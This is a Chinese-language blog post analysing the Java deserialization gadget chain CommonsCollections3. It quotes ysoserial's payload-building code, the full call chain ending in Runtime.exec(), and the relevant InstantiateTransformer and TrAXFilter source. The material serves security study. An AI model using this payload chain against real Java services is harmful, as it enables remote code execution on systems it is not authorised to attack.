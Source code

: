 ```yaml
---
title: "Java反序列化利用链学习 - CommonCollection3"
date: 2022-05-02T14:21:00+08:00
lastmod: 2022-05-02T14:22:00+08:00
draft: false
lightgallery: true
categories: [
    "Java Security",
]
tags: [
    "deserialiaztion",
    "java",
    "common collection",
]
---
```

## Java反序列化利用链系列

* [Java反序列化利用链 - CommonCollection1](commoncollection1.md)
* [Java反序列化利用链 - CommonCollection2](commoncollection2.md)
* [Java反序列化利用链 - CommonCollection3](commoncollection3.md)
* [Java反序列化利用链 - CommonCollection4](commoncollection4.md)
* [Java反序列化利用链 - CommonCollection5](commoncollection5.md)
* [Java反序列化利用链 - CommonCollection6](commoncollection6.md)
* [Java反序列化利用链 - CommonCollection7](commoncollection7.md)

## Java反序列化利用链 - CommonCollection3

### 前置条件

* JDK 1.7
* commons-collections 3.1

### 利用链分析

`CommonCollection3`为`CommonCollection1`的变种，不同的是将`org.apache.commons.collections.functors.InvokerTransformer`变为了`org.apache.commons.collections.functors.InstantiateTransformer`，并且修改了`ChainedTransformer`中的调用链替换为使用`TemplateImpl`。

`ysoserial`中的相关代码如下

```java
public Object getObject(final String command) throws Exception {
    Object templatesImpl = Gadgets.createTemplatesImpl(command);

    // inert chain for setup
    final Transformer transformerChain = new ChainedTransformer(
        new Transformer[]{ new ConstantTransformer(1) });
    // real chain for after setup
    final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(TrAXFilter.class),
            new InstantiateTransformer(
                    new Class[] { Templates.class },
                    new Object[] { templatesImpl } )};

    final Map innerMap = new HashMap();

    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

    final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);

    final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);

    Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

    return handler;
}
```

`CommonCollection3`利用链的调用过程大致如下：

```
Gadget chain:
    ObjectInputStream.readObject()
        AnnotationInvocationHandler.readObject()
            Map(Proxy).entrySet()
                AnnotationInvocationHandler.invoke()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InstantiateTransformer.transform()
                                Method.invoke()
                                    TrAXFilter.TrAXFilter()
                                        TemplatesImpl.newTransformer()
                                            TemplatesImpl.defineTransletClasses()
                                                Runtime.exec()
```

相关的调用内容在[Java反序列化利用链 - CommonCollection1]({{< relref "commoncollection1/index.md" >}})和[Java反序列化利用链 - CommonCollection2]({{< relref "commoncollection2/index.md" >}})中都有涉及，这里需要关注一下`com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter`这个类，以及`org.apache.commons.collections.functors.InstantiateTransformer`。

### InstantiateTransformer

`InstantiateTransformer`的`compare`函数如下

```java
public Object transform(Object input) {
    try {
        if (!(input instanceof Class)) {
            throw new FunctorException("InstantiateTransformer: Input object was not an instanceof Class, it was a " + (input == null ? "null object" : input.getClass().getName()));
        } else {
            Constructor con = ((Class)input).getConstructor(this.iParamTypes);
            return con.newInstance(this.iArgs);
        }
    } catch (NoSuchMethodException var6) {
        throw new FunctorException("InstantiateTransformer: The constructor must exist and be public ");
    } catch (InstantiationException var7) {
        throw new FunctorException("InstantiateTransformer: InstantiationException", var7);
    } catch (IllegalAccessException var8) {
        throw new FunctorException("InstantiateTransformer: Constructor must be public", var8);
    } catch (InvocationTargetException var9) {
        throw new FunctorException("InstantiateTransformer: Constructor threw an exception", var9);
    }
}
```

它会查找`input`对象中由`InstantiateTransformer`的成员`this.iParamTypes`指定的构造函数，并通过`this.iArgs`。它的作用就是实例化某个特定对象，但是对利用链的作用还可以是触发某个类特定的构造函数。

### TrAXFilter

在`CommonCollection2`中，·`TemplateImpl`这条链是通过`TemplatesImpl.newTransformer()`为起点开始的。但这里不太一样，用到了`com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter`。

根据`ChainedTransformer`的调用顺序，先调用`ConstantTransformer.transform()`返回`TrAXFilter`对象，再执行参数类型为`Templates`的构造函数。

```java
public TrAXFilter(Templates templates)  throws
    TransformerConfigurationException
{
    _templates = templates;
    _transformer = (TransformerImpl) templates.newTransformer();
    _transformerHandler = new TransformerHandlerImpl(_transformer);
    _overrideDefaultParser = _transformer.overrideDefaultParser();
}
```

从这里就可以看到它会调用`templates.newTransformer()`，从而触发`TemplateImpl`调用链。

## References

1. <https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections3.java>

